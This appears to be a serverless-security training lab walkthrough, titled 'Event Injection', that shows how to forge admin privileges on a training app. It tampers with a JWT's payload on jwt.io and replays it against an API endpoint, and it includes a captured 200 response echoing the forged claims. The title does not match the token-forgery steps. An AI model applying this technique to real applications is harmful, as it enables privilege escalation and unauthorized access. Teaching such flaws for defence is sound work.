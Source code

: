 # **Event Injection**


### *  *

-------

#### Step 1:

* Access the [XML-Uploader](http://sls-training-ui.s3-website-us-east-1.amazonaws.com/) Application on the browser.

```commandline
http://sls-training-ui.s3-website-us-east-1.amazonaws.com/
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*


-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Local Storage` under the `Storage` section in `developer tools`

* Paste the token on [jwt.io](https://jwt.io/) and tamper the value in `Payload` section

```commandline
{
"username": "admin",
"role": "admin",
"email": "admin@widget.co"
}
```

* Using the tampered token, try to access the application using `http` on the provisioned server

```commandline
http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<token>
```

### *It should return with a response similar to the one below:*

```commandline
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 02 Apr 2019 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```

---------

### Reading Material/References:
